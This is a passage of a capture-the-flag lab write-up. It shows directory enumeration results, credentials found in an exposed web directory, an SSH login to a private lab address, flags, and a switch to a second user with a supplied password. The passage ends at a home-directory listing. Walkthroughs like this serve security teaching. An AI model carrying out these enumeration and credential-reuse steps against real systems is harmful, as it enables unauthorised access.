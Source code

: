 ```
    /.htpasswd (Status: 403)
    /anon (Status: 301)
    /.htaccess (Status: 403)
    /.hta (Status: 403)
    /index.html (Status: 200)
    /javascript (Status: 301)
    /server-status (Status: 403)
    ===============================================================
    2020/10/31 12:58:48 Finished
    ===============================================================

```

So, we are given an `anon` directory lets look into it.

Visiting this directory we get the credentials of the user,

```
uno:luc10r4m0n
```

Now, we use ssh to login as uno(1st User)

```
>>> ssh uno@192.168.43.71
    password:luc10r4m0n
```

Here we get our flag of user uno and a readme file

```
Congratulations!
Here's your first flag segment: flag1{fb9e88}
```

Opening the readme.txt 
```
Head over to the second user!
You surely can guess the username , the password will be:
4b3l4rd0fru705
```


### User 2
----

So, we can now switch our user level to dos(User 2) as the /etc/passwd has dos as the next user.

```
>> su dos
password: 4b3l4rd0fru705
```

Once we login as user dos we move to his home directory and then list the files

```
>> cd
>> ls -la
   
   drwx------  7 dos  dos    4096 Oct 29 19:51 .
   drwxr-xr-x 12 root root   4096 Oct 19 11:05 ..
   -rw-rw-r--  1 dos  dos      47 Oct  5 09:24 1337.txt
   -rw-------  1 dos  dos     612 Oct 29 19:51 .bash_history
   -rw-r--r--  1 dos  dos     220 Sep 22 11:36 .bash_logout
   -rw-r--r--  1 dos  dos    3771 Sep 22 11:36 .bashrc
   drwx------  2 dos  dos    4096 Sep 22 12:49 .cache
   drwx------  2 dos  dos    4096 Sep 22 13:59 .elinks
   drwxr-xr-x  2 dos  dos  135168 Oct 29 17:32 files
   drwx------  3 dos  dos    4096 Sep 22 12:49 .gnupg
   drwxrwxr-x  3 dos  dos    4096 Sep 22 13:24 .local
   -rw-r--r--  1 dos  dos     807 Sep 22 11:36 .profile
```